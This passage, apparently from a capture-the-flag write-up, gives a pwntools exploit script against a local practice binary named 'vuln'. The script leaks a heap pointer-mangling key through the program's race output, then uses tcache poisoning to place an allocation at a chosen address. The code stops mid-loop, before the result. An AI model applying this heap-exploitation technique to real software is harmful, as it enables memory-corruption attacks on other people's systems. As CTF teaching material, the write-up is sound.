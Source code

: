 # The final script, and result

The final script:

```
from pwn import *

p = process('./vuln')
e = ELF('./vuln')

# ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ #

def cheat(index, name, newspot):
    p.sendline(b'0')
    p.sendline(str(index).encode())
    p.sendline(name)
    p.sendline(str(newspot).encode())

def add_horse(index, length, name):
    p.sendline(b'1')
    p.sendline(str(index).encode())
    p.sendline(str(length).encode())
    p.sendline(name)

def remove_horse(index):
    p.sendline(b'2')
    p.sendline(str(index).encode())

def race():
    p.sendline(b'3')

# ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ #

for i in range(8):
    add_horse(i, 256, b'i' * 256)
    remove_horse(i)
    add_horse(i, 256, b'\xFF')
race()

p.recvuntil(b'WINNER: ')
aslr = int.from_bytes(p.recvuntil(b'\n').replace(b'\n', b''), 'little')
print(f'aslr: {hex(aslr)}')

remove_horse(0)
remove_horse(1)

# ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ #

add_horse(0, 256, b'i' * 256)
add_horse(1, 256, b'i' * 256)

remove_horse(1)
remove_horse(0)

cheat(0, p64(0x4040E0 ^ aslr) + b'\xFF', 0)

add_horse(0, 256, b'\x00' * 256)
add_horse(1, 256, b'\xFF')

leak = aslr
while leak == aslr or leak == 0:
    race()
    p.recvuntil(b'WINNER: ')
```